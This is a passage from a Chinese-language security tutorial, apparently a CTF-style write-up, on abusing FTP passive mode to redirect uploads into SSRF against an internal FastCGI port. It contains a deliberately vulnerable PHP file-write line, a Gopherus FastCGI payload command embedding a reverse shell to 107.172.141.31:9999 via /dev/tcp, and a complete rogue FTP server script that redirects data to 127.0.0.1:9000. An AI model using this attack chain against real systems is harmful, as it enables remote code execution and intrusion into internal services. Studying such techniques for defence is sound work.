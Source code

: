 在建立控制通道的时候和 Standard 模式类似，都是 FTP 客户端和 FTP 服务器的 TCP 21  端口建立连接，但建立连接后发送的不是 PORT 命令，而是 PASV 命令。FTP 服务器收到 PASV  命令后，随机打开一个高端端口（端口号大于1024）并且通知客户端在这个端口上传送数据的请求，客户端连接到 FTP  服务器的此高端端口，通过三次握手建立通道，然后 FTP 服务器将通过这个端口进行数据的传送。

> 简单地说，主动模式和被动模式这两种模式是按照 FTP 服务器的 “角度” 来说的，更通俗一点说就是：在传输数据时，如果是服务器主动连接客户端，那就是主动模式；如果是客户端主动连接服务器，那就是被动模式。

可见，在被动方式中，FTP  客户端和服务端的数据传输端口是由服务端指定的，而且还有一点是很多地方没有提到的，实际上除了端口，服务器的地址也是可以被指定的。由于 FTP 和  HTTP 类似，协议内容全是纯文本，所以我们可以很清晰的看到它是如何指定地址和端口的：

```python
227 Entering Passive Mode(192,168,9,2,4,8)
```

227 和 Entering Passive Mode 类似 HTTP 的状态码和状态短语，而 `(192,168,9,2,4,8)` 代表让客户端到连接 192.168.9.2 的 4 * 256 + 8 = 1032 端口。

这样，假如我们指定 `(127,0,0,1,0,9000)` ，那么便可以将地址和端口指到  127.0.0.1:9000，也就是本地的 9000 端口。同时由于 FTP 的特性，其会把传输的数据原封不动的发给本地的 9000  端口，不会有任何的多余内容。如果我们将传输的数据换为特定的 Payload 数据，那我们便可以攻击内网特定端口上的应用了。在这整个过程中，FTP 只起到了一个重定向 Payload 的内容。

```php
<?php
file_put_contents($_GET['file'], $_GET['data']);
```

在不能写文件的环境下我们如何才能实现 RCE 呢？那么这个时候我们便可以从 FTP 的被动模式入手，通过 SSRF 攻击内网应用。

首先使用 Gopherus生成 Payload：

```bash
python gopherus.py --exploit fastcgi
/var/www/html/index.php  # 这里输入的是目标主机上一个已知存在的php文件
bash -c "bash -i >& /dev/tcp/107.172.141.31/9999 0>&1"  # 这里输入的是要执行的命令
```

Vps 上运行exp.py并监听9999端口

```py
#exp.py
# evil_ftp.py
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
s.bind(('0.0.0.0', 23))
s.listen(1)
conn, addr = s.accept()
conn.send(b'220 welcome\n')
#Service ready for new user.
#Client send anonymous username
#USER anonymous
conn.send(b'331 Please specify the password.\n')
#User name okay, need password.
#Client send anonymous password.
#PASS anonymous
conn.send(b'230 Login successful.\n')
#User logged in, proceed. Logged out if appropriate.
#TYPE I
conn.send(b'200 Switching to Binary mode.\n')
#Size /
conn.send(b'550 Could not get the file size.\n')
#EPSV (1)
conn.send(b'150 ok\n')
#PASV
conn.send(b'227 Entering Extended Passive Mode (127,0,0,1,0,9000)\n') #STOR / (2)
conn.send(b'150 Permission denied.\n')
#QUIT
conn.send(b'221 Goodbye.\n')
conn.close()
```
